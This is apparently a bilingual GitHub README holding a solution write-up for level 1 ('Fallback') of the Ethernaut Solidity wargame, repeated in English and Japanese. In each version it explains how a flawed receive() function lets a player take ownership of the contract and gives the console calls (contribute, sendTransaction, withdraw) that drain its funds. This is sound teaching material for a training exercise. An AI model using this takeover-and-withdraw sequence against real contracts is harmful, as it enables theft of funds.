

<!-- @format -->
# English README　[Jump to Japanese Version](#japanese)

# Ethernaut Solutions
- The Ethernaut is a Web3/Solidity-based coding wargame, played in the Ethereum Virtual Machine. 
- Each level is a smart contract that needs to be 'hacked'.

Here are the writeups of my solutions levels I cleared. 
** I will not recommend you to look at solutions I wrote. Solve it yourself for your learning 😛 **

# How to use Ethernaut
- To use ethernaut, you need to use the console from the developper tool of your browser in the first place.
- If your confortable with Foundry and Methods call using `cast` and `send`, you can also solve problem from Foundry framework.
- If you are not confortable yet with ABI, then it is a great way to learn about it and how to call any contract by external calls.
- In higher difficulty levels, you will need to wrote smart contracts and interfaces to hack some smart contract externally for clearing levels.

## Ethernaut 1. Fallback

The goal is to become the Owner of the smart contract to be able to steal all the funds in it.


<br/>
<p align="center">

</p>
<br/>

- There is a logic error in the contract. By sending `0.0001` eth to it without including any data we can enter the `receive()` function and it will change the owner of the contract to our address.


```bash
// call contribute() with the right amount of ether to pass the condition.
> await contract.contribute({value:toWei("0.0001", "ether")})

// since the contract has a payable fallback receive function we will just send a
// transaction to the contract with some amount of ether and empty data(so that the
// fallback function is called)

> await web3.eth.sendTransaction({to:"0x03e95A7EC5F0A70b0855CcBBc2EE428d5a4A3147", value:toWei("0.0001", "ether"), from:"0xe071EeD2EB7CA3514e40d81533046aa90D12f768"})

// in the "owner" storage variable we will see our address now!!
> await contract.owner()
'0xe071EeD2EB7CA3514e40d81533046aa90D12f768'

// withdraw everything using the withdraw() function
> await contract.withdraw() 
```

Level is completed.

<br/>
<p align="center">

</p>
<br/>

<a name="japanese"></a>
# 日本語版のREADME

# Ethernautの解決策
- Ethernautは、Web3/Solidityベースのコーディングウォーゲームで、Ethereum Virtual Machine (EVM) でプレイされます。
- 各レベルはハッキングする必要があるスマートコントラクトです。

これはクリアしたレベルの解決策です。
**解決策を見ることをお勧めしません。学習のために自分で解決してください 😛 **

# Ethernautの使用方法
- Ethernautを使用するには、まずブラウザの開発者ツールからコンソールを使用する必要があります。
- Foundryとcastおよびsendを使用した方法の呼び出しに慣れている場合、Foundryフレームワークから問題を解決することもできます。
- まだABIに慣れていない場合、それを使用して任意のコントラクトを外部呼び出しで呼び出す方法について学び、理解するのに最適な方法です。
- より高難度のレベルでは、スマートコントラクトとインターフェースを作成して、いくつかのスマートコントラクトを外部からハッキングするために解レベルをクリアする必要があります。

## Ethernaut 1. Fallback

目標は、そのスマートコントラクトのオーナーになり、中にあるすべての資金を奪うことです。


<br/>
<p align="center">

</p>
<br/>

- このコントラクトには論理エラーがあります。データを含めずに `0.0001 eth` を送信することで、 `receive()` 関数を通れる、そしてコントラストのオーナーを変更出来ます。


```bash
// contribute() 関数に正しい金額のetherを指定して呼び出します。
> await contract.contribute({value:toWei("0.0001", "ether")})

// 契約にはペイアブルなフォールバック receive 関数があるため、
// ether の金額と空のデータで契約にトランザクションを送信します

> await web3.eth.sendTransaction({to:"0x03e95A7EC5F0A70b0855CcBBc2EE428d5a4A3147", value:toWei("0.0001", "ether"), from:"0xe071EeD2EB7CA3514e40d81533046aa90D12f768"})

// "owner" ストレージ変数で今度は自分のアドレスが表示されます！
> await contract.owner()
'0xe071EeD2EB7CA3514e40d81533046aa90D12f768'

// withdraw() 関数を使用してすべてを引き出します
> await contract.withdraw() 
```

レベルが完了。

<br/>
<p align="center">

</p>
<br/>
